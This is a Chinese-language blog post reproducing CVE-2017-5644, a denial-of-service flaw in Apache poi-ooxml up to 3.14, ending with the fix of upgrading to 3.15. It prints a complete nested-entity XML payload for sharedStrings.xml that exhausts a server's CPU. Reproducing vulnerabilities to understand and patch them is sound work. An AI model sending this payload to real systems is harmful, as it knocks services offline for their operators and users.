 ### [CVE-2017-5644]Apache poi-ooxml DOS漏洞
影响范围：
<= 3.14

对应pom文件：
```xml
        <dependency>
            <groupId>org.apache.poi</groupId>
            <artifactId>poi-ooxml</artifactId>
            <version>3.14</version> <!-- 3.10-FINAL -->
        </dependency>
```

碰到报错：
```
XML解析异常之 The processing instruction target matching "[xX][mM][lL]" is not allowed.
```
参考这里解决：
https://my.oschina.net/u/2007466/blog/310007
https://www.ibm.com/support/pages/processing-instruction-target-matching-xxmmll-not-allowed-1


poc参考这里：
https://bbs.huaweicloud.com/blogs/103994
貌似是漏洞作者。
不是之前的修改
而是改`sharedStrings.xml`，改成这样：
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE x [     
    <!ENTITY e1 "">
    <!ENTITY e2 "&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;">
    <!ENTITY e3 "&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;">
    <!ENTITY e4 "&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;">
    <!ENTITY e5 "&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;">
    <!ENTITY e6 "&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;">
    <!ENTITY e7 "&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;">
    <!ENTITY e8 "&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;">
    <!ENTITY e9 "&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;">
    <!ENTITY e10 "&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;">
    <!ENTITY e11 "&e10;&e10;&e10;&e10;&e10;&e10;&e10;&e10;&e10;&e10;&e10;&e10;&e10;&e10;&e10;&e10;">
]>
<x>&e11;</x>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201116162944678.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70#pic_center)
DOS（消耗CPU资源）的效果如下：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201116163121641.gif#pic_center)
CPU从启动时的10%，最后通过一次次的发包，最后可以占满CPU资源。
我们将服务停止，立马可以恢复到之前的CPU占用水平：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201116163234168.gif#pic_center)
使用3.15版本可以修复这个漏洞。报错大概是这样的：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201116163828961.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70#pic_center)
